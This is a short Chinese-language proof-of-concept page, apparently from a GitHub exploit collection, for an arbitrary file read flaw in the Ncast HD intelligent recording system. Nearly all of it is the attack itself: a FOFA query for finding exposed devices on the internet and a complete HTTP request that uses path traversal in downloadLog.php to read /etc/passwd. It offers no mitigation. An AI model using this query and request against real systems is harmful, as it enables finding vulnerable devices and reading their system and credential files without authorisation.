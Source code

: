 ## Ncast高清智能录播系统存在任意文件读取漏洞

## fofa
```
app="Ncast-产品" && title=="高清智能录播系统"
```

## poc
```
GET /developLog/downloadLog.php?name=../../../../etc/passwd HTTP/1.1
Host: xxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=xxxx
Connection: close
```

![f16b573778c2032b1efded155edef6e1](https://github.com/wy876/POC/assets/139549762/4e73f0f0-e917-41f2-8b8a-faf0cc44a19d)
